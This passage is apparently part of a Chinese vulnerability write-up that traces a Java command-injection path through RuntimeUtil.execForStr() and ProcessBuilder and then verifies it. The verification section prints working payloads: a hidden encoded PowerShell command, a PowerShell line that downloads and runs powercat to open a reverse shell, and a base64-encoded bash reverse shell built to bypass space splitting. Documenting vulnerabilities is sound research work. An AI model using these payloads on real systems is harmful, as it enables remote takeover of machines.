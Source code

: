 继续跟进RuntimeUtil.execForStr()

![image-20240529144050502](https://shs3.b.qianxin.com/butian_public/f62098948ceaeeaf05b10f5b6a47e721531ad9513e99c.jpg)

跟进发现代码对传参进来的命令进行了分割，根据空格把命令分割开，以数组的方式传入。

![image-20240521155940618](https://shs3.b.qianxin.com/butian_public/f88037625223f6d6f28c727b8611d25f6e411f7d01e0f.jpg)

![image-20240523111116991](https://shs3.b.qianxin.com/butian_public/f38645661186690af597af5ae6de920fb4dc282d2fa43.jpg)

通过最终调用ProcessBuilder.start方法执行命令，其中cmdarray\[0\]是要执行的命令，程序会对命令参数进行检查判断其中是否包含空字符，如果包含则抛出异常。cmdarray\[1\]会被作为命令执行的参数进行转换，所以执行系统命令经过处理以后会使原来的命令执行失效。

![image-20240523113712170](https://shs3.b.qianxin.com/butian_public/f5270839b4e91705c3acc7b55c3b89bcb86d70e6cf6fe.jpg)

下来就是执行传入的cmds命令

![image-20240523111143180](https://shs3.b.qianxin.com/butian_public/f289290c2980655cf4a5c4e6cc1f3c8680dc64bf3fa75.jpg)

综上找到对应的漏洞功能点，check方法对应检验文件：

![image-20240521154635172](https://shs3.b.qianxin.com/butian_public/f69993865f98bdeb2b247feb36900d033925fca6d07b9.jpg)

#### 二、漏洞验证

#### windows下漏洞验证：

抓包测试漏洞执行弹calc命令：

![image-20240529173757527](https://shs3.b.qianxin.com/butian_public/f6847097ce750d8de72f7d00bf5fdcce7fd543e28e59a.jpg)

尝试执行ping命令：

![image-20240529144147343](https://shs3.b.qianxin.com/butian_public/f742108d533995d0ee298d856934fcf920d09f69d762f.jpg)

![image-20240520093345855](https://shs3.b.qianxin.com/butian_public/f1282741f51fcb13dbe0cba9a5d38b7a6e3fd31ddff4b.jpg)

![image-20240531111617286](https://shs3.b.qianxin.com/butian_public/f291855f227fe7cc6214737549d3364199baf55eed550.jpg)

```php
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc aQBxxxxxxGMAbwA==
powershell IEX (New-Object System.Net.Webclient).DownloadString ('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c xxxx -p xxx -e cmd
```

#### **linux系统下验证漏洞：**

在linux系统下测试漏洞，可以使用执行bash命令结合base64编码的形式反弹shell绕过命令分隔符判断。最终得到的 paylaod如下：

![image-20240523151415932](https://shs3.b.qianxin.com/butian_public/f34925691042904b9cd7df18cc340de729250cea54f96.jpg)

```php
bash+-c+{echo,xxxxxxxxxxxxxxOS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```
